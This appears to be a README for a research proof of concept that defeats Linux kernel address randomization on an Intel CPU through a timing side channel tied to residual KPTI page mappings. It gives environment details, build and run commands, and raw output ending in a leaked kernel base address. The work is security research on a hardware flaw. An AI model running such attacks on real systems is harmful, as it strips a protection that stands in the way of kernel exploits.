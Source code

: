 # TET-CC-KASLR for Intel i9-10980XE

As KPTI will still have the necessary page mapping residue, which will trigger the TLB Entry Load, which will interfere with TET's Channel.

Since it is only PoC, we use `EntryBleed` to obtain the residual mapping address, and then observe whether there are different characteristics under tet-cc, and the result is yes.

> Note that we observed this behavior only on Intel CPUs and within the virtual machine. In contrast, the AMD test machine acted differently and never created a TLB entry in the mentioned case. The double page fault method can thus not be applied on our AMD CPU.
> 
> R. Hund, C. Willems, and T. Holz, “Practical Timing Side Channel Attacks against Kernel Space ASLR,” in 2013 IEEE Symposium on Security and Privacy, Berkeley, CA: IEEE, May 2013, pp. 191–205. doi: 10.1109/SP.2013.23.

The same thing about `EntryBleed` is that we all use the residual mapping of KPTI, but `EntryBleed` use the side effect of the prefetch instruction, and we use the side effect of transient pipeline stall.

## Environment

```shell
$ uname -a
Linux XXX 5.15.0-72-generic #79-Ubuntu SMP XXX x86_64 x86_64 x86_64 GNU/Linux

$ lscpu   
Architecture:            x86_64
  CPU op-mode(s):        32-bit, 64-bit
  Address sizes:         46 bits physical, 48 bits virtual
  Byte Order:            Little Endian
CPU(s):                  36
  On-line CPU(s) list:   0-35
Vendor ID:               GenuineIntel
  Model name:            Intel(R) Core(TM) i9-10980XE CPU @ 3.00GHz
    CPU family:          6
    Model:               85
    Thread(s) per core:  2
    Core(s) per socket:  18
    Socket(s):           1
    Stepping:            7
    CPU max MHz:         4800.0000
    CPU min MHz:         1200.0000
    BogoMIPS:            6000.00
    Flags:               fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush dts acpi mmx fxsr sse sse2 ss ht tm pbe syscall nx pdpe1gb rdtscp lm constant_t
                         sc art arch_perfmon pebs bts rep_good nopl xtopology nonstop_tsc cpuid aperfmperf pni pclmulqdq dtes64 monitor ds_cpl vmx est tm2 ssse3 sdbg fma cx16 xtpr pdcm
                          pcid dca sse4_1 sse4_2 x2apic movbe popcnt tsc_deadline_timer aes xsave avx f16c rdrand lahf_lm abm 3dnowprefetch cpuid_fault cat_l3 cdp_l3 invpcid_single pti
                          ssbd mba ibrs ibpb stibp ibrs_enhanced tpr_shadow vnmi flexpriority ept vpid ept_ad fsgsbase tsc_adjust bmi1 avx2 smep bmi2 erms invpcid cqm mpx rdt_a avx512f
                          avx512dq rdseed adx smap clflushopt clwb intel_pt avx512cd avx512bw avx512vl xsaveopt xsavec xgetbv1 xsaves cqm_llc cqm_occup_llc cqm_mbm_total cqm_mbm_local 
                         dtherm ida arat pln pts hwp hwp_act_window hwp_pkg_req avx512_vnni md_clear flush_l1d arch_capabilities
Virtualization features: 
  Virtualization:        VT-x
Caches (sum of all):     
  L1d:                   576 KiB (18 instances)
  L1i:                   576 KiB (18 instances)
  L2:                    18 MiB (18 instances)
  L3:                    24.8 MiB (1 instance)
NUMA:                    
  NUMA node(s):          1
  NUMA node0 CPU(s):     0-35
Vulnerabilities:         
  Itlb multihit:         KVM: Mitigation: VMX disabled
  L1tf:                  Not affected
  Mds:                   Not affected
  Meltdown:              Not affected
  Mmio stale data:       Mitigation; Clear CPU buffers; SMT vulnerable
  Retbleed:              Mitigation; Enhanced IBRS
  Spec store bypass:     Mitigation; Speculative Store Bypass disabled via prctl and seccomp
  Spectre v1:            Mitigation; usercopy/swapgs barriers and __user pointer sanitization
  Spectre v2:            Mitigation; Enhanced IBRS, IBPB conditional, RSB filling, PBRSB-eIBRS SW sequence
  Srbds:                 Not affected
  Tsx async abort:       Mitigation; TSX disabled

$ sudo dmesg | grep 'page tables isolation'
[    0.008458] Kernel/User page tables isolation: force enabled on command line.
[    0.277231] Kernel/User page tables isolation: enabled
```

## Experiment Result
```shell
$ sudo cat /proc/kallsyms | grep startup_64
ffffffff81000000 T startup_64
ffffffff81000040 T secondary_startup_64
ffffffff81000045 T secondary_startup_64_no_verify
ffffffff810002f0 T __startup_64
ffffffff81000840 T startup_64_setup_env

$ mkdir build && cd build && cmake ..
...

$ cmake --build . && taskset -c 1 ./tet_cc_kaslr
...
invalid_addr: 0xffffffff80000000
size: 0,         max_i: 23,      max_i_index: S
size: 1,         max_i: 32,      max_i_index: S
size: 2,         max_i: 34,      max_i_index: S
size: 3,         max_i: 26,      max_i_index: S
size: 4,         max_i: 31,      max_i_index: S
success_count: 5
invalid_addr: 0xffffffff81000000
size: 0,         max_i: 38,      max_i_index: S
size: 1,         max_i: 26,      max_i_index: S
size: 2,         max_i: 28,      max_i_index: S
size: 3,         max_i: 19,      max_i_index: S
size: 4,         max_i: 51,      max_i_index: S
success_count: 5
invalid_addr: 0xffffffff81e00000
size: 0,         max_i: 5,       max_i_index: H
size: 1,         max_i: 5,       max_i_index: G
size: 2,         max_i: 7,       max_i_index: H
size: 3,         max_i: 7,       max_i_index: O
size: 4,         max_i: 5,       max_i_index: F
success_count: 0
invalid_addr: 0xffffffff81c00000
size: 0,         max_i: 19,      max_i_index: S
size: 1,         max_i: 22,      max_i_index: S
size: 2,         max_i: 14,      max_i_index: S
size: 3,         max_i: 16,      max_i_index: S
size: 4,         max_i: 29,      max_i_index: S
success_count: 5
invalid_addr: 0xffffffff82000000
size: 0,         max_i: 27,      max_i_index: S
size: 1,         max_i: 21,      max_i_index: S
size: 2,         max_i: 16,      max_i_index: S
size: 3,         max_i: 15,      max_i_index: S
size: 4,         max_i: 14,      max_i_index: S
success_count: 5
invalid_addr: 0xffffffff83000000
size: 0,         max_i: 16,      max_i_index: S
size: 1,         max_i: 11,      max_i_index: S
size: 2,         max_i: 15,      max_i_index: S
size: 3,         max_i: 10,      max_i_index: S
size: 4,         max_i: 13,      max_i_index: S
success_count: 5
KASLR base: 0xffffffff81e00000
```